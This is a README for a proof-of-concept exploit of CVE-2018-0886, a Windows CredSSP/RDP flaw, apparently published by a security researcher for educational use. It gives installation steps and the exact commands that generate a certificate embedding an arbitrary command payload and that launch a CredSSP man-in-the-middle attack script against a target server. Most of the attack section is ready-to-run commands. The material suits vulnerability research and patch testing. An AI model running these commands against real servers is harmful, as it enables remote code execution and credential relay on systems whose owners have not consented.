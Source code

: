 # credssp

This is a poc code for exploiting CVE-2018-0886. It should be used for educational purposes only.
It relies on a fork of the rdpy project(https://github.com/preempt/rdpy), allowing also credssp relay. 


Written by Eyal Karni, Preempt 
ekarni@preempt.com 

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 
It was tested on Ubuntu 16.04. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```
* It assumes a pretty clean inital state. Best to uninstall first relevant components such as cryptography, pyopenssl maybe (pip uninstall cryptography).  
* A different version of openssl needed to be installed for this to run successfully.  The install script does that. 
* Please follow the instructions in the described order. 

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain.
(It is used for RDP https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn781533(v=ws.11)) 

To generate a certificate that exploits the vulnerability(contains the payload),use: 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD 
```
 (ExportedCert is the  exported certificate from step 1. 
 exploitc.pem ,exploitk.pem are the generated certificate and private key respectively)

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```

More details are in the usage section of the scripts(--help). 
